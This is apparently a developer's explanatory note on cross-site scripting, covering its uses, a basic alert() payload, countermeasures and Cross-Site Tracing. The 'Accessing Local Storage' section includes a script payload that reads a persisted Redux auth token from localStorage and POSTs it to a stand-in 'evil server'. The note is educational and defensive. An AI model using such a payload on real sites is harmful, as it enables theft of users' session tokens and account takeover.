 # XSS

**Cross site scripting** (**XSS**) is an attack where one runs a script
(typically JavaScript) in another user's browser. This can happen if user inputs
are not correctly sanitized and then displayed back to users.

XSS can be used for

- stealing stored data in browser local storage
- steal cookies (unless they are server-side read-only)
- modify DOM and trigger DOM events
- send requests (especially dangerous if cookie-based authentication is used)
- keylogger

For example, assume we have a social media site wheres user can post comments.
The comments are rendered server side using a template language (although it is
as much of a vulnerability for client-side rendering)

```html
<div>
  <p>{comment}</p>
</div>
```

A malicious user posts the following comment

```html
<script>
  alert("XSS");
</script>
```

When any user attempt to see this comment, the HTML renders as below which
executes the malicious script.

```html
<div>
  <p>
    <script>
      alert("XSS");
    </script>
  </p>
</div>
```

## Accessing Local Storage

Here is a vulnerability from an app I was working. This attack could grab a
token in persisted Redux store and send it to an evil server.

```html
<script>
  {
    const root = window.localStorage["persist:root"];
    const auth = JSON.parse(root).auth;

    const url = "my.evil.server:5001";
    window.fetch(url, { method: "POST", body: auth });
  }
</script>
```

## Countermeasures

The best protection against XSS is to make sure all user input is sanitized and
that no vulnerable data is stored in local storage or browser readable cookies.

## XST

There is something called Cross-Site Tracing (XST) where one uses a HTTP Track
request to bypass the `httpOnly` attribute in a cookie. To protect against XST,
make sure Track requests are disabled (especially from JavaScript).
